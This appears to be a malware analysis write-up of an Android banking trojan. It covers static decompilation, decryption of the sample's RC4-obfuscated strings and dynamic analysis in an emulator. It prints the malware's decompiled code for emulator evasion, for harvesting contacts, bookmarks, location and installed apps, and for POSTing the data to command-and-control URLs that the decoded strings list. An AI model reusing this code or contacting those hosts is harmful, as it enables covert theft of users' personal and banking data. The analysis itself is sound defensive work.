    if (Build.MODEL.contains(j.af) || Build.MODEL.contains(j.ag) || Build.MODEL.contains(j.ah) || Build.FINGERPRINT.startsWith(j.ai) || Build.FINGERPRINT.startsWith(j.aj) || Build.MODEL.contains(j.ak) || Build.MANUFACTURER.contains(j.al)) {
      bool1 = true;
    } else {
      bool1 = false;
    } 
    if (Build.BRAND.startsWith(j.ai) && Build.DEVICE.startsWith(j.ai)) {
      bool2 = true;
    } else {
      bool2 = false;
    } 
    if (bool || bool1 || bool2)
      bool3 = true; 
    return bool3;
  }
```
The above piece of code does a simple check for the possibility of the program running in an emulator. 

1) At first, it gets the device ID and checks against the string `IxsfFWYp93X+BUm6G+nFDzE=` and the result is stored in `bool` <br>
2) Then a check is done against a set of hardcoded names for emulators. If any of the checks, hits, `bool1` is stored as true.<br>
3) Then another check is done with the device brand and device name<br>

The following are the strings which are checked here :

1) For `bool1` : <br>

`I0xASjF1ohq9URKo`<br>
`I25CUDp4syq8Fw==`<br>
`I2pBQSR2riHuZj3BCQ==`<br>
`I0xKSzNrribs`<br>
`I15BTjh2sCvs`<br>
`I2pBQSR2riHuZj3BC7uAVn94ASVuCAU7pykf`<br>
`I2xKSy90qDGnWheo`<br>

2) For `bool2` : <br>

`I0xKSzNrribs`

3) For `bool3` : 

All 3 has to be false else it'll be set as true and the program will know that it is running in an emulator.


#### Location Reveal

```
  static String b(Context paramContext) {
    n n = new n(paramContext);
    if (n.c) {
      n.a();
      return "" + n.a() + ":" + n.b();
    } 
    return j.p;
  }
```
If we trace to the functions being called over here, we'll find out that the latitude and loingitude are being return here.

That is only if `n.c` is true, or else `j.p` string is returned : `I0VaSTo7`

#### Alarm and Scheduler

```
  public static void b(Context paramContext) {
    if (Build.VERSION.SDK_INT >= 19) {
      PendingIntent pendingIntent = PendingIntent.getBroadcast(paramContext, 0, new Intent(paramContext, AlarmReceiverKnock.class), 268435456);
      ((AlarmManager)paramContext.getSystemService("alarm")).setInexactRepeating(0, Calendar.getInstance().getTimeInMillis(), 60000L, pendingIntent);
      return;
    } 
    paramContext.startService(new Intent(paramContext, SrvKnock.class));
  }
```

Tracing into this functions and the included functions shows, that it creates some kind of alarm and schedule.


**ProcMon**

```
  public static void c(Context paramContext) {
    if (Build.VERSION.SDK_INT >= 19) {
      paramContext.startService(new Intent(paramContext, SrvProcMon.class));
      return;
    } 
    paramContext.startService(new Intent(paramContext, SrvProcMon.class));
  }
```
```
package jgywwv.jvyjsd.sordvd;

import android.app.Service;
import android.content.Intent;
import android.os.IBinder;
import java.util.Timer;
import java.util.TimerTask;
import t;

public class SrvProcMon extends Service {
  public IBinder onBind(Intent paramIntent) {
    throw new UnsupportedOperationException("");
  }
  
  public void onCreate() {
    t t = new t(this);
    (new Timer()).schedule((TimerTask)t, 1000L, 3000L);
  }
  
  public int onStartCommand(Intent paramIntent, int paramInt1, int paramInt2) {
    return 1;
  }
}
```

This one possibly checks the SDK version and depending upon that it binds to a service

`A bound service is an implementation of the Service class that allows other applications to bind to it and interact with it. To provide binding for a service, you must implement the onBind() callback method. This method returns an IBinder object that defines the programming interface that clients can use to interact with the service.`

Refer : [Bound Services](https://developer.android.com/guide/components/bound-services)

1) A service is created that provides binding using `IBinder` <br>
2) Then a fixed time is scheduled to perform the same task.<br>
3) Here `(TimeTask)t` is the task to be performed and 1000L is the delay, and 3000L is the period.<br>

**z.class**

This is another interesting class that I found : 

```
import android.content.ContentResolver;
import android.content.Context;
import android.content.pm.ApplicationInfo;
import android.content.pm.PackageManager;
import android.database.Cursor;
import android.provider.Browser;
import android.provider.ContactsContract;
import org.json.JSONArray;
import org.json.JSONException;
import org.json.JSONObject;

public class z {
  static String a(Context paramContext) {
    JSONArray jSONArray = new JSONArray();
    Cursor cursor = paramContext.getContentResolver().query(Browser.BOOKMARKS_URI, new String[] { "title", "url" }, "bookmark = 0", null, null);
    if (cursor.moveToFirst() && cursor.getCount() > 0)
      while (true) {
        if (!cursor.isAfterLast()) {
          String str1 = cursor.getString(cursor.getColumnIndex("title"));
          String str2 = cursor.getString(cursor.getColumnIndex("url"));
          try {
            JSONObject jSONObject = new JSONObject();
            jSONObject.put("title", str1);
            jSONObject.put("url", str2);
            jSONArray.put(jSONObject);
          } catch (JSONException jSONException) {}
          cursor.moveToNext();
          continue;
        } 
        return jSONArray.toString();
      }  
    return jSONArray.toString();
  }
  
  static boolean a(String paramString) {
    paramString = paramString.replace("-", "");
    int i = paramString.length() - 1;
    int j = 0;
    int k = 0;
    while (i >= 0) {
      int n = Integer.parseInt(paramString.substring(i, i + 1));
      int m = n;
      if (j) {
        n *= 2;
        m = n;
        if (n > 9)
          m = n % 10 + 1; 
      } 
      k += m;
      if (!j) {
        m = 1;
      } else {
        m = 0;
      } 
      i--;
      j = m;
    } 
    return (k % 10 == 0);
  }
  
  static String b(Context paramContext) {
    JSONArray jSONArray = new JSONArray();
    ContentResolver contentResolver = paramContext.getContentResolver();
    Cursor cursor = contentResolver.query(ContactsContract.Contacts.CONTENT_URI, null, null, null, null);
    if (cursor.getCount() > 0)
      while (cursor.moveToNext()) {
        String str2 = cursor.getString(cursor.getColumnIndex("_id"));
        String str1 = cursor.getString(cursor.getColumnIndex("display_name"));
        if (Integer.parseInt(cursor.getString(cursor.getColumnIndex("has_phone_number"))) > 0) {
          Cursor cursor1 = contentResolver.query(ContactsContract.CommonDataKinds.Phone.CONTENT_URI, null, "contact_id = ?", new String[] { str2 }, null);
          while (cursor1.moveToNext()) {
            String str = cursor1.getString(cursor1.getColumnIndex("data1"));
            try {
              JSONObject jSONObject = new JSONObject();
              jSONObject.put(j.ap, str1);
              jSONObject.put(j.aq, str);
              jSONArray.put(jSONObject);
            } catch (JSONException jSONException) {}
          } 
          cursor1.close();
        } 
      }  
    return jSONArray.toString();
  }
  
  static String c(Context paramContext) {
    JSONArray jSONArray = new JSONArray();
    PackageManager packageManager = paramContext.getPackageManager();
    for (ApplicationInfo applicationInfo : packageManager.getInstalledApplications(128)) {
      try {
        JSONObject jSONObject = new JSONObject();
        jSONObject.put(j.ap, applicationInfo.packageName);
        jSONObject.put(j.ar, applicationInfo.sourceDir);
        jSONObject.put(j.as, packageManager.getLaunchIntentForPackage(applicationInfo.packageName));
        jSONArray.put(jSONObject);
      } catch (JSONException jSONException) {}
    } 
    return jSONArray.toString();
  }
}
```

The first function : 

```
static String a(Context paramContext) {
    JSONArray jSONArray = new JSONArray();
    Cursor cursor = paramContext.getContentResolver().query(Browser.BOOKMARKS_URI, new String[] { "title", "url" }, "bookmark = 0", null, null);
    if (cursor.moveToFirst() && cursor.getCount() > 0)
      while (true) {
        if (!cursor.isAfterLast()) {
          String str1 = cursor.getString(cursor.getColumnIndex("title"));
          String str2 = cursor.getString(cursor.getColumnIndex("url"));
          try {
            JSONObject jSONObject = new JSONObject();
            jSONObject.put("title", str1);
            jSONObject.put("url", str2);
            jSONArray.put(jSONObject);
          } catch (JSONException jSONException) {}
          cursor.moveToNext();
          continue;
        } 
        return jSONArray.toString();
      }  
    return jSONArray.toString();
  }
```

It seems to be taking stored bookmarks of the user and displaying them in the form of a table. With title and url as the two columns.


```
static String b(Context paramContext) {
    JSONArray jSONArray = new JSONArray();
    ContentResolver contentResolver = paramContext.getContentResolver();
    Cursor cursor = contentResolver.query(ContactsContract.Contacts.CONTENT_URI, null, null, null, null);
    if (cursor.getCount() > 0)
      while (cursor.moveToNext()) {
        String str2 = cursor.getString(cursor.getColumnIndex("_id"));
        String str1 = cursor.getString(cursor.getColumnIndex("display_name"));
        if (Integer.parseInt(cursor.getString(cursor.getColumnIndex("has_phone_number"))) > 0) {
          Cursor cursor1 = contentResolver.query(ContactsContract.CommonDataKinds.Phone.CONTENT_URI, null, "contact_id = ?", new String[] { str2 }, null);
          while (cursor1.moveToNext()) {
            String str = cursor1.getString(cursor1.getColumnIndex("data1"));
            try {
              JSONObject jSONObject = new JSONObject();
              jSONObject.put(j.ap, str1);
              jSONObject.put(j.aq, str);
              jSONArray.put(jSONObject);
            } catch (JSONException jSONException) {}
          } 
          cursor1.close();
        } 
      }  
    return jSONArray.toString();
  }
```
Now this function takes the contacts from the phone book and displays them by looping through the contacts.


#### Reversing the encrypting algorithm

As we have already seen that the strings in this program are in the form of base64 encoded. But on decoding it'll be seen that these don't yield any recognisable character or strings. However, upon checking the function which use these strings that is the `j.class` we see that the function `a()` in the class `w.class` in being called with the string. 

```
public static final String b = w.a("aV9bVWw26C2vVwzoQrKcUWdlQG1oFAoo9n1Pdik0FqEYqfnSuWO/rTXGTmvbL/+J9JJUortqTrg=");
```
The above is an example from `j.class`.

Now in the `w.class` : 

```
import android.util.Base64;

public class w {
  static String a(String paramString) {
    try {
      paramString = new String((new o("11457797201".getBytes("UTF-8"))).a(Base64.decode(paramString, 0)), "UTF-8");
      try {
        return paramString.replace("\"", "");
      } catch (Exception null) {}
    } catch (Exception exception) {
      paramString = "";
    } 
    exception.printStackTrace();
    return paramString;
  }
}
```

Only one package is imported that is `android.util.Base64`. The function `a()` takes the Base64 encoded string passed to it, then decodes it and sends it to the function `a()` of class `o.class`.


**o.class**


In this class the main decryption is done.


```
package defpackage;

/* renamed from: o  reason: default package */
public class o {
    public int[] a = new int[256];

    public o(byte[] bArr) {
        int i = 0;
        int length = bArr.length;
        for (int i2 = 0; i2 < 256; i2++) {
            this.a[i2] = i2;
        }
        for (int i3 = 0; i3 < 256; i3++) {
            i = (((i + this.a[i3]) + bArr[i3 % length]) + 256) % 256;
            int i4 = this.a[i];
            this.a[i] = this.a[i3];
            this.a[i3] = i4;
        }
    }

    public byte[] a(String str) {
        return a(str.getBytes("UTF-8"));
    }

    public byte[] a(byte[] bArr) {
        int length = bArr.length;
        byte[] bArr2 = new byte[length];
        int i = 0;
        int i2 = 0;
        for (int i3 = 0; i3 < length; i3++) {
            i2 = (i2 + 1) % 256;
            i = (i + this.a[i2]) % 256;
            int i4 = this.a[i];
            this.a[i] = this.a[i2];
            this.a[i2] = i4;
            bArr2[i3] = (byte) (this.a[(this.a[i2] + this.a[i]) % 256] ^ bArr[i3]);
        }
        return bArr2;
    }
}
```

Let's break down this class :

1) An integer array if size 256 is initialized at the beginning.<br>
2) Then a constructor is called to initialize.

To this parameter a string of byte : `paramString = new String((new o("11457797201".getBytes("UTF-8"))).a(Base64.decode(paramString, 0)), "UTF-8");` is passed in `UTF-8` encoded format. 

The string of bytes passed here is `11457797201`.

3) In the first loop of the constructor : 

```
 for (int i2 = 0; i2 < 256; i2++) {
            this.a[i2] = i2;
```

The array `a[]` is initialized with the values from 0 to 255.

4) The next then uses the byte string passed to the constructor to change the calues initialized in the array `a[]`.

5) In the function `a()` the actual string to be decrypted is passed and converted to byte string and passed to its another instance.

```
 public byte[] a(byte[] bArr) {
        int length = bArr.length;
        byte[] bArr2 = new byte[length];
        int i = 0;
        int i2 = 0;
        for (int i3 = 0; i3 < length; i3++) {
            i2 = (i2 + 1) % 256;
            i = (i + this.a[i2]) % 256;
            int i4 = this.a[i];
            this.a[i] = this.a[i2];
            this.a[i2] = i4;
            bArr2[i3] = (byte) (this.a[(this.a[i2] + this.a[i]) % 256] ^ bArr[i3]);
        }
        return bArr2;
    }
```


This is where the actual decryption occurs with the now updated `a[]` array.

**NOTE: At this point, I found some dicrepancies in the decompilation for jd-gui, so I switched to jadx-gui**

The algorithm itself in the apk, decodes the strings. We can just implement in standard java and get the actual strings.

The following is the implementation of the decoding algorithm in Java : 

```
import java.util.*;

class o {
        public int[] a = new int[256];

        public o(byte[] bArr) {
                int i = 0;
                int len = bArr.length;
                for(int i2=0;i2<256;i2++) {
                        this.a[i2] = i2;
                }

                for(int i3 = 0; i3 < 256; i3++) {
                        i = (((i + this.a[i3]) + bArr[i3 % len]) + 256) % 256;
                        int i4 = this.a[i];
                        this.a[i] = this.a[i3];
                        this.a[i3] = i4;
                }
        }

        public byte[] a(byte[] bArr) {
                int len = bArr.length;
                byte[] bArr2 = new byte[len];
                int i=0;
                int i2=0;

                for(int i3 = 0; i3 < len;i3++) {
                        i2 = (i2 + 1) % 256;
                        i = (i + this.a[i2]) % 256;
                        int i4 = this.a[i];
                        this.a[i] = this.a[i2];
                        this.a[i2] = i4;
                        bArr2[i3] = (byte)(this.a[(this.a[i2] + this.a[i]) % 256] ^ bArr[i3]);
                }
                return bArr2;
        }
}

class Decryption {
        public static void main(String args[]) {
                String enc = "aV9bVWw26C2vVwzoQrKcUWdlQG1oFAoo9n1Pdik0FqEYqfnSuWO/rTXGTmvbL/+J9JJUortqTrg=";
                byte[] t = "11457797201".getBytes();
                byte[] Bdec = Base64.getDecoder().decode(enc);
                o ob=new o(t);
                byte[] res = ob.a(Bdec);
                String result = new String(res);
                System.out.println("Decoded text : "+result);
        }
}
```

I used a long string for testing and it gave an URL :



So to speed up the process of decrypting all the strings, I thought about automating the thing. So I separated all the strings into one single file. I used the following bash commands to get this :



Now encrypted.txt has the strings as it is from the program : 

```
cat encrypted.txt | awk -F '[" "] '{print $12}' 
```

Now this will separate out the encrypted strings : 



Store this in encrypted.txt. Now encrypted.txt can be used to automate the decryption of all the strings.

I used the following python script to automate the whole process : 

```
from pwn import *

f = open("encrypted.txt",'r')
d = open("decrypted.txt",'w')

strings = f.read().splitlines()

for i in strings:
    sh = process(['java','Decryption'])
    sh.sendlineafter("Enter : \n",i)
    Dstring = sh.recvline().decode()
    d.write(Dstring)
    sh.kill()
sh.interactive()
```

The following is the list of the decoded strings that I got from the process and stored in a file separately.

```
"get"
"id"
"imei"
"country"
"cell"
"android"
"model"
"phonenumber"
"sim"
"app"
"hsmsm"
"hadmin"
"ver"
"info"
"load"
"number"
"text"
"data"
"no
"result"
"timestamp"
"command"
"status"
"ok"
"to"
"pong"
"http://habubikintia.com/kibrn7k43ojlpyeplat1203/index.php"
"smsstatus"
"smsid"
"MMS
"Отправитель
"Удалить
"Введите
"Номер
"ММ"
"ГГГГ"
"CVC"
"havecc"
"Сохранить"
"index.html"
"pcode"
"123456789"
"file:///android_asset/"
"text/html"
"com.android.vending"
"com.whatsapp"
"params"
"apk"
"dns"
"icmp"
"000000000000000"
"google_sdk"
"Emulator"
"Android
"generic"
"unknown"
"Android
"Genymotion"
"com.android.settings.DeviceAdminAdd"
"com.android.settings.SmsDefaultDialog"
"application/vnd.android.package-archive"
"name"
"nomer"
"dir"
"activity"
"content://sms/inbox"
"address"
"duration"
"Calls._ID"
"content://call_log/calls"
"klog"
"installed"
"http://habubikintia.in/kibrn7k43ojlpyeplat1203/index.php"
"meta"
"help.txt"
"module"
"cc"
"card"
"month"
"year"
"cvc"
"url"
"urlb"
"eurl"
"INSTALLATION"
"pdus"
"null"
"phone"
"msg"
"date"
"sms"
"tel"
"body"
"time"
"UTF-8"
"ns"
"type"
```

From analysing the strings only, we get a clear view of the working of the malware as well as the portions we looked into previously.


#### Understanding some of the functions now with the decoded strings

If we go back to the `u.class` with the function `a()` which is as follows : 

```

    static String a(Context context, String str) {
        Intent intent = new Intent("android.intent.action.VIEW");
        intent.setDataAndType(Uri.fromFile(new File(str)), j.ao);
        intent.setFlags(268435456);
        context.startActivity(intent);
        return "";
    }
```

We see that it gets a string for URI which is : `I0pfVTpwpCS6XBbkBK+bWz1tTydzFUwnsW9ce3U+RfdaoufBqG+5pHY=`

Decoded : `application/vnd.android.package-archive"`

It allows you download an apk from the internet.


**aa.class**

If we take a look at the following class : 

```
import org.apache.http.HttpEntity;
import org.apache.http.client.methods.HttpPost;
import org.apache.http.client.methods.HttpUriRequest;
import org.apache.http.entity.StringEntity;
import org.apache.http.impl.client.DefaultHttpClient;
import org.json.JSONException;
import org.json.JSONObject;

public class aa {
  public static int a = 1;
  
  public static int b = 2;
  
  public static int c = 0;
  
  public static int a(Context paramContext) {
    NetworkInfo networkInfo = ((ConnectivityManager)paramContext.getSystemService("connectivity")).getActiveNetworkInfo();
    if (networkInfo != null) {
      if (networkInfo.getType() == 1)
        return a; 
      if (networkInfo.getType() == 0)
        return b; 
    } 
    return c;
  }
  
  public static String a(Context paramContext) {
    JSONObject jSONObject = new JSONObject();
    try {
      jSONObject.put("1", y.a(paramContext, j.a));
      jSONObject.put("2", y.a(paramContext, j.b));
    } catch (JSONException jSONException) {}
    return jSONObject.toString();
  }
  
  private static String a(InputStream paramInputStream) {
    BufferedReader bufferedReader = new BufferedReader(new InputStreamReader(paramInputStream));
    String str = "";
    while (true) {
      String str1 = bufferedReader.readLine();
      if (str1 != null) {
        str = str + str1;
        continue;
      } 
      paramInputStream.close();
      return str;
    } 
  }
  
  public static String a(String paramString, JSONObject paramJSONObject) {
    try {
      o o = new o("12321322869".getBytes("UTF-8"));
      DefaultHttpClient defaultHttpClient = new DefaultHttpClient();
      HttpPost httpPost = new HttpPost(paramString);
      httpPost.setEntity((HttpEntity)new StringEntity(Base64.encodeToString(o.a(paramJSONObject.toString()), 0)));
      InputStream inputStream = defaultHttpClient.execute((HttpUriRequest)httpPost).getEntity().getContent();
      return (inputStream != null) ? a(inputStream) : "";
    } catch (Exception exception) {
      return "";
    } 
  }
  
  public static int b(Context paramContext) {
    boolean bool2 = false;
    int i = a(paramContext);
    if (i == a)
      return 1; 
    boolean bool1 = bool2;
    if (i != b) {
      bool1 = bool2;
      if (i == c)
        return -1; 
    } 
    return bool1;
  }
}
```

We see that in the function : 

```

  public static String a(Context paramContext) {
    JSONObject jSONObject = new JSONObject();
    try {
      jSONObject.put("1", y.a(paramContext, j.a));
      jSONObject.put("2", y.a(paramContext, j.b));
    } catch (JSONException jSONException) {}
    return jSONObject.toString();
  }
```

Two strings are referenced, which are after decoding : 

1) j.b : `http://habubikintia.com/kibrn7k43ojlpyeplat1203/index.php`<br>
2) j.a : `http://habubikintia.com/kibrn7k43ojlpyeplat1203/index.php
` <br>

So it references to these two URLs and sends requests to them using an HTTPClient : 

```
  
  public static String a(String paramString, JSONObject paramJSONObject) {
    try {
      o o = new o("12321322869".getBytes("UTF-8"));
      DefaultHttpClient defaultHttpClient = new DefaultHttpClient();
      HttpPost httpPost = new HttpPost(paramString);
      httpPost.setEntity((HttpEntity)new StringEntity(Base64.encodeToString(o.a(paramJSONObject.toString()), 0)));
      InputStream inputStream = defaultHttpClient.execute((HttpUriRequest)httpPost).getEntity().getContent();
      return (inputStream != null) ? a(inputStream) : "";
    } catch (Exception exception) {
      return "";
    } 
}
```

#### Brief look into the emulator detection technique

```
  public static boolean a(Context paramContext) {
    boolean bool1;
    boolean bool2;
    boolean bool3 = false;
    boolean bool = ((TelephonyManager)paramContext.getSystemService("phone")).getDeviceId().equals(j.ae);
    if (Build.MODEL.contains(j.af) || Build.MODEL.contains(j.ag) || Build.MODEL.contains(j.ah) || Build.FINGERPRINT.startsWith(j.ai) || Build.FINGERPRINT.startsWith(j.aj) || Build.MODEL.contains(j.ak) || Build.MANUFACTURER.contains(j.al)) {
      bool1 = true;
    } else {
      bool1 = false;
    } 
    if (Build.BRAND.startsWith(j.ai) && Build.DEVICE.startsWith(j.ai)) {
      bool2 = true;
    } else {
      bool2 = false;
    } 
    if (bool || bool1 || bool2)
      bool3 = true; 
    return bool3;
  }
```

Previously we had speculated that the above function was reponsible the detection of emulators. It compares the Build version, model and manufacturer with a set of hardcoded strings. Now, we can be sure what these strings exactly are : 

1) j.af : `google_sdk`<br>
2) j.ag : `Emulator`<br>
3) j.ah : `Android SDK`<br>
4) j.ai : `generic`<br>
5) j.aj : `unknown`<br>
6) j.ak : `Android SDK built for x86`<br>
7) j.al : `Genymotion`<br>

So, it checks for the above strings in order to confirm if it is running inside an emualtor. It also, checks if the brand name starts with `generic` string or not.

If the value of `bool3` is true, then it determines it is running inside an emulator.


### Dynamic Analysis

**Emulator Used** : Genymotion

We already have seen that there is a emulator detection function in the apk. It even checks for the emulator that we are going to be using. So, without any changes in the apk, we can expect that there should not be an kind of malicious activity performed by the apk.


We have adb attached to the emulator. 

Running the uname command on the emulator, we find out that the name `genymotion` is there

```
adb shell uname -a
Linux localhost 4.4.10-genymotion #1 SMP PREEMPT Fri Oct 28 09:28:26 UTC 2016 x86_64 GNU/Linux
```

I changed the name to mal.apk and installed it using adb : 

```
cp 4ab8f26e8aaee3de12b04b7a86be9ee349672e228b52e5b90dcd63cf7b564e34.apk mal.apk
```

```
db install mal.apk 
Performing Push Install
mal.apk: 1 file pushed, 0 skipped. 668.1 MB/s (129406 bytes in 0.000s)
        pkg: /data/local/tmp/mal.apk
Success
```
As soon as we install it, we see that it is a MMS application with some weird Russian texts.  :


After first time I launched the apk, it didn't do anything. The second time I clicked, the emulator crashed instantly.


Then when I restarted the emulator : 


It says that this particular app has stopped working. Although we get that some requests are being made through the device, but nothing seems to be out of the ordinry.



So as expected, no malicious activity will start to take place inside an emulator.

### Bypassing the emulator check

Now to study the malicious activities of the apk, I had to bypass the emulator check, which was using a very simple check.

So I decompiled the apk using apktool : 

```
apktool d 4ab8f26e8aaee3de12b04b7a86be9ee349672e228b52e5b90dcd63cf7b564e34.apk -o descarga
```

Then I went into the folder and opened up the `u.smali` file which had the check in there.


I located where it was actually returning the true/false values. 


We see that the condition checks with the strings and `v2` is moved into `v1` which tells us that the value of `v2` might hold the value `true` after comparing it with the decompiled code. So I changed the code and made it : 

```
move v1, v1
```



This will always return the check as false and the emulaotr check will be bypassed. I signed the apk with jarsigner and installed the apk into my emulator using adb.

```
adb install changed_mal.apk
```

Now after I installed the same logo appeared as the first time.

However, this time as soon as I ran the application, it asked for administrator privileges : 


So I gave it the privileges. But soon after that, the application hid itself from the common view.


I was using Burpsuite as the proxy so I checked the burp logs : 




As suspected, it was sending requests to the URL that we had found earlier during our code analysis.

Now the app by itself asked to be the default Messaging app


Upon checking the `sdcard` directory, it was found that a file called `help.txt` had been created there.


The following are the processes run by the application in the background : 


To understand why is the help.txt file empty I sent the request to the hardcoded URL using repeater in Burpsuite, but it didn't give any response. It explains why the `help.txt` is empty because the contents from this requests are written in this file.


## Conclusion

After the code analysis and then the dynamic analysis, we have somewhat clear idea of what this malware is capable of.

As stated earlier, it is a banking trojan and aims to gain administrative privileges of the phone. Then as soon as it gains the administrative access to the device, it tries to read the SMS records, Phone book , get the device location and much more. It also accesses an URL to download something (most probably more malicious codes) and stores them on the phone. 

It also tries to gain access as the main messaging application of the device. 

Most importantly, we have seen that this piece of software implements a simple check in order to detect the presence of an emulator. Although, this check can be bypassed easily.


#### Hash of the sample : 

4ab8f26e8aaee3de12b04b7a86be9ee349672e228b52e5b90dcd63cf7b564e34

**Source** : https://github.com/ashishb/android-malware/tree/master/descarga

**API Version Used** : >= 19

**Keytool Output** : 

```
keytool -printcert -file CERT.RSA 
Owner: CN=zxzxzx, OU=zxzxzx, O=zxzxzx, L=zxzxzx, ST=zxzxzx, C=ZX
Issuer: CN=zxzxzx, OU=zxzxzx, O=zxzxzx, L=zxzxzx, ST=zxzxzx, C=ZX
Serial number: 5dc58429
Valid from: Fri Feb 26 02:07:37 UTC 2016 until: Tue Feb 19 02:07:37 UTC 2041
Certificate fingerprints:
         SHA1: CB:6C:A4:FB:90:23:61:D7:00:49:AF:CB:AE:93:FE:0D:E9:77:0C:67
         SHA256: CE:DE:B7:0B:BE:D8:EB:0F:E4:E6:D5:E7:64:F6:28:52:42:A8:5E:BE:24:DC:3F:64:F5:6E:A3:15:EF:E6:4F:84
Signature algorithm name: SHA256withRSA
Subject Public Key Algorithm: 2048-bit RSA key
Version: 3

Extensions: 

#1: ObjectId: 2.5.29.14 Criticality=false
SubjectKeyIdentifier [
KeyIdentifier [
0000: 14 5D 9B 1A 9D 38 27 F2   07 EF CE EC D6 45 ED A9  .]...8'......E..
0010: 98 86 70 9C                                        ..p.
]
]
```

**jarsigner Output** : 

```
jarsigner -verify -verbose 4ab8f26e8aaee3de12b04b7a86be9ee349672e228b52e5b90dcd63cf7b564e34.apk

sm    14060 Sat Mar 12 17:40:18 UTC 2016 AndroidManifest.xml
sm     6752 Sat Mar 12 17:40:12 UTC 2016 res/drawable/aec.png
sm     7344 Sat Mar 12 17:40:12 UTC 2016 res/drawable/gp.png
sm     4527 Sat Mar 12 17:40:12 UTC 2016 res/drawable/mc.png
sm     2534 Sat Mar 12 17:40:12 UTC 2016 res/drawable/visa_curved.png
sm    70224 Sat Mar 12 17:40:12 UTC 2016 res/drawable/wc.png
sm     3406 Sat Mar 12 17:40:12 UTC 2016 res/drawable/wcpl.png
sm      576 Sat Mar 12 17:40:18 UTC 2016 res/layout/activity_activity_card.xml
sm      500 Sat Mar 12 17:40:18 UTC 2016 res/layout/activity_activity_first.xml
sm      576 Sat Mar 12 17:40:18 UTC 2016 res/layout/activity_activity_mms.xml
sm      576 Sat Mar 12 17:40:18 UTC 2016 res/layout/activity_activity_web.xml
sm     2126 Sat Mar 12 17:40:12 UTC 2016 res/mipmap-hdpi-v4/ic.png
sm      196 Sat Mar 12 17:40:18 UTC 2016 res/xml/da.xml
sm     3268 Sat Mar 12 17:40:12 UTC 2016 resources.arsc
sm    46760 Sat Mar 12 17:40:18 UTC 2016 classes.dex
s      1227 Sat Mar 12 17:40:18 UTC 2016 META-INF/MANIFEST.MF
       1256 Sat Mar 12 17:40:18 UTC 2016 META-INF/CERT.SF
       1332 Sat Mar 12 17:40:18 UTC 2016 META-INF/CERT.RSA

  s = signature was verified 
  m = entry is listed in manifest
  k = at least one certificate was found in keystore

- Signed by "CN=zxzxzx, OU=zxzxzx, O=zxzxzx, L=zxzxzx, ST=zxzxzx, C=ZX"
    Digest algorithm: SHA1
    Signature algorithm: SHA1withRSA, 2048-bit key

jar verified.

Warning: 
This jar contains entries whose certificate chain is invalid. Reason: PKIX path building failed: sun.security.provider.certpath.SunCertPathBuilderException: unable to find valid certification path to requested target
This jar contains entries whose signer certificate is self-signed.
This jar contains signatures that do not include a timestamp. Without a timestamp, users may not be able to validate this jar after any of the signer certificates expire (as early as 2041-02-19).

Re-run with the -verbose and -certs options for more details.

The signer certificate will expire on 2041-02-19.
```


